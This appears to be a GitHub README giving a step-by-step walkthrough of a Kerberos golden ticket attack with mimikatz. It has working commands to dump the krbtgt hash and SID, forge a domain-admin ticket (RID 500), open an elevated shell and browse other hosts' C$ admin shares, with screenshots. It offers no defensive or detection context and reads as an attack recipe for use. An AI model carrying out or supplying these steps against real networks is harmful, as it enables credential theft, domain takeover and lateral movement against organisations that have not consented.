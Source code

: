 # Golden-Ticket-Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

### Golden Ticket Attacks w/ mimikatz 
Using mimikatz.exe, we gonna dump the krbtgt hash and sid.
```markdown
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

![OnPaste 20220614-120938](https://user-images.githubusercontent.com/106917304/173510236-d02a0fdd-2e67-4a81-9763-e6d210e480bc.png)


Now generate golden ticket using krbtgt hash and sid.
```markdown
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```
NOTE: id is set to 500 for golden ticket attack.


![OnPaste 20220614-121203](https://user-images.githubusercontent.com/106917304/173510532-09a2930d-83f2-4137-b483-b5461c6e3ed4.png)


This will open a new command prompt with elevated privileges to all machines.
```markdown
misc::cmd
```
![OnPaste 20220614-121351](https://user-images.githubusercontent.com/106917304/173510764-a28e6a59-7adf-4e2f-9b23-7a4f98a5e89d.png)


Access other Machines! - You will now have another command prompt with access to all other machines on the network.

```markdown
dir \\DESKTOP-1\c$
```

![OnPaste 20220614-121503](https://user-images.githubusercontent.com/106917304/173511018-f5e167eb-8cd5-46d9-91a3-d8c4ab2ce233.png)


